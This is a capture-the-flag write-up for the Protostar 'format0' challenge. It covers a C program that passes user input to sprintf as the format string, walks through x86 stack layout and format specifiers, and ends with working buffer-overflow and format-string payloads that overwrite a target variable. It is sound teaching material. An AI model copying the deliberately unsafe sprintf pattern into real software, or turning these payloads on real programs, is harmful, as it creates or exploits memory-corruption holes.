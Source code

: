 # Format 0

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);              //<- This code causes Buffer overflow
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Overview & Idea

- `sprintf(char *str, char *format, arg...)` doesn't specify the `char *format`, so, we can use user input to exploit either with BOF or Format String vulnerability.

## Details

### With BOF

- We just use random 64 bytes to fill up buffer variable, after that 64 bytes is 0xdeadbeef to overwrite the target variable to pass into true branch of if statement.

- **RESULT**:
```
root@protostar:/opt/protostar/bin# (python -c 'print("a"*64+"\xef\xbe\xad\xde")') | xargs ./format0
you have hit the target correctly :)
```

### With Format String

#### How does Format String works?

- In x86_32 Assembly, if we call to a function with arguments, we must pass it into stack

```
|        .  .  .  .
|  +-------------------+      <- esp
|  |                   |      
|  |                   |      
|  |  Content of func  |      
|  |                   |      
|  |                   |      
|  +-------------------+      <- ebp                          
|  |    EBP Reserve    |                               
|  +-------------------+                                   
S  |        RET        |
t  +-------------------+
a  |     argument 1    |
c  +-------------------+
k  |     argument 2    |
|  +-------------------+
|  |     argument 3    |
|  +-------------------+
|  |     argument ...  |
|  +-------------------+
|        .  .  .  .

```

- Let's check the disassembly of `printf("%d %d %d\n", 3, 1, 2);` statement

```
   0x08049166 <+0>:     lea    ecx,[esp+0x4]
   0x0804916a <+4>:     and    esp,0xfffffff0
   0x0804916d <+7>:     push   DWORD PTR [ecx-0x4]
   0x08049170 <+10>:    push   ebp
   0x08049171 <+11>:    mov    ebp,esp
   0x08049173 <+13>:    push   ebx
   0x08049174 <+14>:    push   ecx
   0x08049175 <+15>:    call   0x80491a5 <__x86.get_pc_thunk.ax>
   -------------------------------------------------------
   0x0804917a <+20>:    add    eax,0x2e7a                |
   0x0804917f <+25>:    push   0x2                       |
   0x08049181 <+27>:    push   0x1                       |    
   0x08049183 <+29>:    push   0x3                       |    call to printf
   0x08049185 <+31>:    lea    edx,[eax-0x1fec]          |    
   0x0804918b <+37>:    push   edx                       | 
   0x0804918c <+38>:    mov    ebx,eax                   |     
   0x0804918e <+40>:    call   0x8049030 <printf@plt>    |                    
   -------------------------------------------------------
   0x08049193 <+45>:    add    esp,0x10
   0x08049196 <+48>:    mov    eax,0x0
   0x0804919b <+53>:    lea    esp,[ebp-0x8]
   0x0804919e <+56>:    pop    ecx
   0x0804919f <+57>:    pop    ebx
   0x080491a0 <+58>:    pop    ebp
   0x080491a1 <+59>:    lea    esp,[ecx-0x4]
   0x080491a4 <+62>:    ret
```

- We can see that, First `add   eax, 0x2e7a` is statement that store address of GOT, then, it pushs 3 arguments into stack, then it pushs the address of `char *format` from GOT into stack. So, stack will look like this:

```
|        .  .  .  .
|  +-------------------+      <- esp
|  |                   |      
|  |                   |      
|  | Content of printf |      
|  |                   |      
|  |                   |      
|  +-------------------+      <- ebp                          
|  |    EBP Reserve    |                               
|  +-------------------+                                   
S  |        RET        |
t  +-------------------+
a  |   "%d %d %d\n"    |
c  +-------------------+
k  |         3         |
|  +-------------------+
|  |         1         |
|  +-------------------+
|  |         2         |
|  +-------------------+
|        .  .  .  .

```

- With a call to printf like that it'll print the contents of argument that is on stack. But, what if we do not feed the argument 3, 1, 2? Does it print content of stack? Yes, It will be. Let's test some code to see what is it printf:

```c
// gcc -m32 -no-pie fmt0.c -o fmt
#include<stdio.h>

int main()
{
    printf("%x %x %x\n");
}

// result of this program can be different in each computer, each run with gdb and without gdb
// turn off the ASLR to make it easy to understand

// Result:
// ffffd514 ffffd51c 804917a

// -------------------------------------------------Stack-----------------------------------------------------------
// 00:0000│ esp 0xffffd440 —▸ 0x804a008 ◂— '%x %x %x\n'
// 01:0004│     0xffffd444 —▸ 0xffffd514 —▸ 0xffffd668 ◂— '/mnt/c/users/whatd/Desktop/CTF/pwn/labs/fmt/fmt0'
// 02:0008│     0xffffd448 —▸ 0xffffd51c —▸ 0xffffd699 ◂— 'HOSTTYPE=x86_64'
// 03:000c│     0xffffd44c —▸ 0x804917a (main+20) ◂— add    eax, 0x2e7a
// 04:0010│     0xffffd450 —▸ 0xffffd470 ◂— 0x1
// 05:0014│     0xffffd454 ◂— 0x0
// 06:0018│ ebp 0xffffd458 ◂— 0x0
// 07:001c│     0xffffd45c —▸ 0xf7ddf905 (__libc_start_main+229) ◂— add    esp, 0x10
```

- It works exactly with our expection.

### Format speciers

- You can click on this [link](https://eecs.wsu.edu/~cs150/reading/printf.htm) to explore more specifier in C. Below is some specifier that we'll play with :3

|  Specifier |  Used for     |
| :---: | :---: |
|   %c | print single character |
| %s | print a string |
| %x | hex integer    |
| %p | an address  (or pointer)   |
| %n | write 4 bytes on stack with value is size of printed string | 
| %hn | write 2 bytes on stack with value is size of printed string | 
| %hhn | write 1 bytes on stack with value is size of printed string | 

### Format String Vulnerablility

- The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.
- Remember the above example with C code. We can use `printf("%d %d %d");` to read the stack. And if we write code like this:

```
char buffer[] = "%d %d %d"
printf(buffer)
```

- It does the same `printf("%d %d %d");`, and if buffer is user input, it's so dangerous because user can read, write on stack or do somethings that we don't expected.

### Back to challenge

- `int sprintf(char *str, char *fmt, arg...);` sends formatted output to a string pointed to, by str.
- So, we can use some format specifier to ask the program gave the output we want and put it in str, with this chall is buffer.
- If you read the link that I gave you in above, you can remember `%[sign_option][width_field.precision]<format_specifier>`. We can use width_field to ask the program print the size that we want.

- We need 64 bytes to fill up buffer and 4 bytes to overwrite target. we will use this format to do it: `"%64x\xef\xbe\xad\xde"`

### Exploit

```python
# filename: exp.py

payload = "%64x\xef\xbe\xad\xde"
print(payload)

# python exp.py | xargs ./fmt0
```